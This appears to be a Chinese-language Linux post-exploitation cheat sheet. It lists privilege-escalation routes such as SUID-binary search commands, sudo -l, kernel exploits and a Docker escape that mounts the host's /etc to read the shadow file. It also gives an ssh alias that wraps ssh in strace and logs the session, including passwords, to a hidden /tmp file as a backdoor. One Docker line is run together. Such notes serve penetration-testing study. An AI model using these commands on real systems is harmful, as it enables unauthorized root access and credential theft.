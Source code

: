 持久化 - Linux
========================================

权限提升
----------------------------------------
- 明文root密码/密码复用
- 脏牛漏洞本地提权
- 内核漏洞利用
    - searchspolit linux
    - searchspolit centos 7 kernel 3.10
- 攻击有root权限的服务
- 通过有SUID属性的可执行文件
    - 查找可能提权的可执行文件
	- ``find / -perm +4000 -ls``
	- ``find / -perm -u=s -type f 2>/dev/null``
	- ``find / -user root -perm -4000 -print 2>/dev/null``
	- ``find / -user root -perm -4000 -exec ls -ldb {} \;``
    - 常用的提权文件：Nmap，Vim，find，Bash，More，Less，Nano，cp
- 利用可用的root权限
    - ``sudo -l``
- crontab计划任务
- docker提权
    - docker images命令查看已经存在的镜像
    - 没有的话就pull一个
	- docker pull alpine
    - 已经存在的images
	- docker run -it --rm xxx /bin/bash    #常规使用
	- docker run -it --rm xxx /bin/sh    #常规使用
	- docker run -it --rm -v /etc:/etc xxx /bin/bash    #异常使用
	- docker run -it --rm -v /etc:/etc xxx /bin/sh    #异常使用
    - 挂载目录到docker镜像内
	- docker run -v /:/mnt  -it alpine
	- docker run -v /etc/:/mnt -it alpinecd /mntcat shadow
    
- 其它
    - ``https://github.com/SecWiki/linux-kernel-exploits``

后门
----------------------------------------
- strace 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``

